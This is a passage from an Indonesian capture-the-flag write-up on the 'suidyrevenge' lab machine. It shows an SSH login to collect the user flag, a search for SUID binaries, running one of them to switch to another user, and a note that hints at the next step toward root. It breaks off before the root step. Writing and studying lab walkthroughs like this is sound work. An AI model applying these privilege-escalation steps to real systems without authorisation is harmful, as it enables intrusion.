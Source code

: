 
lalu saya login lewat ssh dan get the user flag.

    ╭─ via [machines/suidyrevenge]
    ╰─ ssh theuser@$victim
    theuser@192.168.56.28's password: 
    Linux suidyrevenge 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64
    
    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.
    
    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    Last login: Fri Nov  4 13:34:47 2022 from 192.168.56.1
    theuser@suidyrevenge:~$ ls
    user.txt
    theuser@suidyrevenge:~$
    

privesc
-------

seperti biasa pencarian _SUID binary_ karena nama mesinnya mengindikasikan.

    theuser@suidyrevenge:~$ find / -perm -4000 2>/dev/null
    /home/suidy/suidyyyyy
    /usr/lib/eject/dmcrypt-get-device
    /usr/lib/openssh/ssh-keysign
    /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    /usr/bin/umount
    /usr/bin/sudo
    /usr/bin/chsh
    /usr/bin/mount
    /usr/bin/violent
    /usr/bin/newgrp
    /usr/bin/chfn
    /usr/bin/su
    /usr/bin/gpasswd
    /usr/bin/passwd
    theuser@suidyrevenge:~$ /home/suidy/suidyyyyy 
    suidy@suidyrevenge:~$
    

Well saya sudah cek `sudo -l` dan tetap tidak ada respon, ngecek `crontab` sama saja. lalu saya analisis `suidyyyyy`. tetap tidak ada yang menarik. lalu saya mencoba untuk ke `HOME` dari user `suidy` dan menemukan `note.txt`

    I know that theuser is not here anymore but suidyyyyy is now more secure!
    root runs the script as in the past that always gives SUID to suidyyyyy binary
    but this time also check the size of the file.
    WE DONT WANT MORE "theuser" HERE!.
    WE ARE SECURE NOW.
    
    -suidy
    
